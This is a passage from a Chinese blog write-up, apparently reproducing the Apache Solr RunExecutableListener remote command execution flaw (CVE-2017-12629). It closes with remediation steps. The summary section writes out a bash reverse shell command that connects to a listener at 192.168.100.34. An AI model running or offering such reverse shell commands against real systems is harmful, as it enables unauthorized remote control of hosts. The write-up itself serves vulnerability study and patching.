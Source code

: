 

**反弹shell也是一样的操作，修改需要执行的命令即可**

![image-20220704221814999](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220704221814999.png)

成功反弹shell

![image-20220704221830357](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220704221830357.png)



# 总结

**1、linux一般默认都是用的bash，但是我们的包是sh，而我们的反弹命令又是用的bash，所以要想反弹的话，必须把包中的sh改成bash。之前用sh也可以执行命令，是因为之前的命令既属于sh也属于bash！**
**2、java的runtime函数才需要编码，这里用的是solr.RunExecutableListener函数**

![img](https://img-blog.csdnimg.cn/7afc3248e2e6411b926475f80e64e0c4.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5qix5rWF5rKQ5Yaw,size_20,color_FFFFFF,t_70,g_se,x_16)

**3、（也就是说双方的命令语言要一样！）**
**双方都是bash**
**使用bash -i >& /dev/tcp/192.168.100.34/1111 0>&1**
**可以反弹**

# 漏洞修复

**1、添加Solr访问控制，包括禁止本地直接未授权访问；**
**2、升级版本至7.1，该版本已经解决了XML解析问题并删除了RunExecutableListener类；**
**3、针对XXE可手动修改CoreParser.java文件，按照通常防止基于DOM解析产生XXE的防范方法修复即可；**







[传送门](https://blog.csdn.net/qq_45300786/article/details/120303179?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165693866116782389447209%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=165693866116782389447209&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~hot_rank-4-120303179-null-null.142^v30^pc_rank_34,185^v2^control&utm_term=Apache+Solr+%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2017-12629%EF%BC%89&spm=1018.2226.3001.4187)